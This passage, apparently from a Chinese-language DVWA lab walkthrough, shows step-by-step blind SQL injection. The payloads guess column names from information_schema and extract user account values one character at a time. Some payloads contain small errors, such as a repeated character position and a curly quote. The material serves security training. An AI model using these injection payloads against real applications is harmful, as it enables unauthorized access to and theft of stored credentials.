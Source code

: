 第三列：

```mysql
1' and length(substr( ( select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 2,1 ) ,1) )=9#
```

....直到猜完8列



猜列的名称：

猜解第三列：

```mysql
1' and ascii(substr( ( select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 3,1 ) ,1,1) )=117# 

1' and ascii(substr( ( select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 3,1 ) ,2,1) )=115# 
#类推直到解完列长
.
.
.
```

猜第四列：

```mysql
1' and ascii(substr( ( select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 4,1 ) ,1,1) )=112# 

1' and ascii(substr( ( select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 4,1 ) ,1,1) )=115# 
#类推直到解完列长
.
.
.
```

#### 6、猜解账号和密码

users表user列第一个字段的长度

```mysql
1’ and length(substr((select user from users limit 0,1),1))=5 #
```

第一个字段的第一个数值

```mysql
1’ and ascii(substr((select user from users limit 0,1),1,1))=97 #
```

第一个字段的第二个数值

```mysql
1’ and ascii(substr((select user from users limit 0,1),2,1))=97 #
```
